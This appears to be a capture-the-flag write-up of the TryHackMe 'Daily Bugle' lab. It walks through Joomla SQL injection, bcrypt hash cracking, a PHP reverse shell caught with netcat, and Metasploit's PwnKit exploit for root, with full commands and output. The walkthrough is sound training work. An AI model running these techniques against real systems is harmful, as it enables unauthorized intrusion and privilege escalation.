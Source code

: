 ```yaml
---

title: Box - Daily Bugle
published: true
---
```


Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

[https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

![0xskar](/assets/bugle01.png)

* * *

## Task 1 - Deploy

1. ``sudo nmap -Pn -sS -T4 -p- 10.10.198.207 -oN nmap_initial.txt``
2. ``sudo nmap -sV -sC -T4 -p22,80,3306 10.10.198.207 -oN nmap_second.txt``

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

##   Answer the questions below

**Access the web server, who robbed the bank?**

![0xskar](/assets/bugle02.png)

- spiderman

* * *

## Task 2 - Obtain user and root 

Hack into the machine and obtain the root user's credentials.

![0xskar](/assets/bugle03.png)

##   Answer the questions below

**What is the Joomla version?**

- quick google find version is @ ``/administrator/manifests/files/joomla.xml``
- version 3.7.0

*Instead of using SQLMap, why not use a python script!*

- [Joomblah.py](https://github.com/stefanlucas/Exploit-Joomla/blob/master/README.md)

```shell
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

**What is Jonah's cracked password?**

- ``john jonah-pass.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --format=bcrypt``
- spiderman123

**What is the user flag?**

1. Travel to templated and customise index.php to reverse shell ``https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php``
2. setup netcat listener, and template preview to get shell.

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/dailybugle]
└─$ nc -nvlp 7777          
listening on [any] 7777 ...
connect to [10.x.x.x] from (UNKNOWN) [10.10.16.193] 41306
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:10:50 up  1:06,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
```

3. download and run ./linpeas.sh

**Things to look at:**

- OS: Linux version 3.10.0-1062.el7.x86_64
- Sudo version 1.8.23
- Vulnerable to ``CVE-2021-4034``
- Exploit suggester ``[CVE-2016-5195] dirtycow``

```shell
meterpreter > sysinfo
Computer     : 10.10.16.193
OS           : CentOS 7.7.1908 (Linux 3.10.0-1062.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

4. ``background meterpreter session``
5. ``search 2021-4034`` and ``use 0``

```shell
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit

[*] Started reverse TCP handler on 10.x.x.x:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.ssbbnl
[+] The target is vulnerable.
[*] Writing '/tmp/.ozchxfocjj/corwmy/corwmy.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.ozchxfocjj
[*] Sending stage (3020772 bytes) to 10.10.16.193
[+] Deleted /tmp/.ozchxfocjj/corwmy/corwmy.so
[+] Deleted /tmp/.ozchxfocjj/.ztjfms
[+] Deleted /tmp/.ozchxfocjj
[*] Meterpreter session 2 opened (10.x.x.x:4444 -> 10.10.16.193:48942) at 2022-06-23 16:04:50 -0700

meterpreter > shell
Process 22448 created.
Channel 1 created.
whoami
root
```

**What is the root flag?**

- Get flags with root shell! Was fun!

* * * 
